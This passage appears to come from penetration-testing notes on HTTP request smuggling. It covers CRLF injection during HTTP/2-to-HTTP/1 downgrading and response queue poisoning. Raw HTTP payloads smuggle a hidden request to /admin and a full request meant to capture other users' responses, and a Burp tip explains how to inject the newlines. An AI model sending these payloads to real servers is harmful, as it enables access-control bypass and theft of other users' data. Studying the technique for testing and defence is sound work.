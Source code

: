 ## <mark style="color:purple;">Request smuggling via CRLF injection</mark> <a href="#request-smuggling-via-crlf-injection" id="request-smuggling-via-crlf-injection"></a>

In HTTP/2 messages `\r\n` no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split. when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers.

E.g. with **H2.TE**

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
foo: \r\nTransfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

{% hint style="info" %}
**Note**: to inject newlines into HTTP/2 headers, in burp use the Inspector to drill down into the header, then press the `Shift + Return` keys.
{% endhint %}

## <mark style="color:purple;">Response queue poisoning</mark>

<details><summary>Theory (in short)</summary></details>

This attack can occur through HTTP/1 request smuggling or HTTP/2 downgrading.

You need to smuggle a complete request.

With this technique you can steal other users' responses.

**(CL)**

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

